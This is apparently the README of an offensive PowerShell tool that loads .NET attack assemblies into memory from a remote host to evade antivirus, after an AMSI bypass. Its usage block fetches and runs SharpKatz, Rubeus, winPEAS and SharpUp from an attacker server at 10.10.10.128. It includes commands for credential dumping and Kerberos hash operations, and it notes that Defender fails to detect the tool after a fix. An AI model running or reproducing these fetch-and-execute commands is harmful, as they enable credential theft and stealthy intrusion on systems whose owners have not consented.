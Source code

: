 # PowerShell exec-assembly remote loader

## This is used to load sharp assembly tools remotely from PowerShell direcly in memory (fileless) for a better AV bypass (need AMSI bypass first)

Usage:

```
Invoke-LoadAssembly -AssemblyUrl http://10.10.10.128:81/SharpKatz.exe -Command "msv"

Invoke-LoadAssembly -AssemblyUrl http://10.10.10.128:81/winPEAS.exe -Command "notcolor quiet log"

Invoke-LoadAssembly -AssemblyUrl http://10.10.10.128:81/Rubeus.exe -Command "hash /password:test"

# After fix the reflectedType is not public issue (Defender not detected):
Invoke-LoadAssembly -AssemblyUrl http://10.10.10.128:81/SharpUpNew.exe -Command "audit"

```